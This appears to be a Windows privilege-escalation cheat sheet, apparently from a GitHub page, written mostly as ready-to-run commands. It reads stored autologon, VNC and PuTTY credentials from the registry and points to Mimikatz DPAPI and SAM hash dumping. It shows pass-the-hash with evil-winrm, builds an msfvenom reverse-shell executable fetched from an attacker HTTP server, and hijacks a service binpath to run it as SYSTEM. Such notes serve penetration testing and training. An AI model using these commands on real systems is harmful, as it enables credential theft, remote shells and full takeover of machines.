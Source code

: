 ### Winlogon / Autologon

Check for stored autologon credentials in registry:

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" DefaultUserName
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" DefaultPassword
```

### Service Passwords and Sessions

```
Get-ItemProperty "HKCU:\Software\ORL\WinVNC3\Password"
Get-ItemProperty "HKLM:\Software\TightVNC\Server" Password
Get-ItemProperty "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

### Browser Passwords and DPAPI

Tools and techniques exist to extract browser stored credentials (Mimikatz `dpapi::chrome`) when you can obtain the DPAPI masterkey.

### SAM and Credential Dumps

The SAM hive stores local account hashes at `C:\Windows\System32\config\SAM`. Offline copies or backups may be useful (e.g., `RegBack`). Tools like Creddump can extract these.

## Pass-the-Hash

Captured NTLM hashes may be reused to authenticate without cracking the password (e.g., `evil-winrm -u <USER> -H <HASH> -i <IP>`).

## Elevating Privileges Using Services

If you can modify a service configuration, replace its binary, or change its ImagePath, you can achieve code execution as the service's account (often SYSTEM).

### Required Executable

Create a payload (e.g., msfvenom) and transfer it to the target using a simple HTTP server and `Invoke-WebRequest`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4343 -f exe -o reverse.exe
python -m http.server
Invoke-WebRequest -Uri "http://<IP>:8000/reverse.exe" -OutFile .\Desktop\reverse.exe
```

### Service Permissions

Use AccessChk to find services the current user can modify. If you have `SERVICE_CHANGE_CONFIG`, change the `binpath` to an executable you control and start the service.

```
sc.exe config svcconfig binpath="C:\Users\user\Desktop\reverse.exe"
start-service svcconfig
```
